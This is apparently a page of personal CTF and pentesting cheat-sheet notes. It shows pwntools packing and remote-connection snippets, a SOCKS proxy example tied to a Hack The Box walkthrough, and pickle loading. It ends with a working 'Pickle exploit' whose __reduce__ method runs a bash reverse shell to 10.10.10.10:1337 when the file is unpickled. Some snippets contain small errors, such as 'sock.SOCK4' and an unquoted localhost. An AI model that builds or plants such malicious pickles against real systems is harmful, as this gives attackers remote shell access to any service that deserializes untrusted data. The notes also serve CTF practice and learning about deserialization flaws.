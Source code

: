 ```python

with socket.socket() as s:
    s.connect((host,port))
    s.send(payload)

```

Pwntool Packing
```python
>>> p8(0)
b'\x00'
>>> p32(0xdeadbeef)
b'\xef\xbe\xad\xde'
>>> p32(0xdeadbeef, endian='big')
b'\xde\xad\xbe\xef'
>>> with context.local(endian='big'): p32(0xdeadbeef)
b'\xde\xad\xbe\xef'

Make a frozen packer, which does not change with context.

>>> p=make_packer('all')
>>> p(0xff)
b'\xff'
>>> p(0x1ff)
b'\xff\x01'
>>> with context.local(endian='big'): print(repr(p(0x1ff)))
b'\xff\x01'

```

Pwntools SOCKS proxy [xct solution to HTB retired machine](https://www.youtube.com/watch?v=w2K-bQNs3cg)
```python
from pwn import *

context.proxy = (sock.SOCK4, localhost, 9090)
# Functional code can start here
p = remote('localhost', 910, level='info')
# Functional code does here
# Then end with p.interactive() 
p.interactive()
```

To un-pickle the data you can: [Ref](https://stackoverflow.com/questions/24906126/how-to-unpack-pkl-file)
```python
import pickle

with open('serialized.pkl', 'rb') as f:
    data = pickle.load(f)
```

Pickle exploit
```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'")
        return os.system, (cmd,)

if __name__ == "__main__":
    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)
    # Test with:
    #with open('badpickle.pkl', 'rb') as f:
```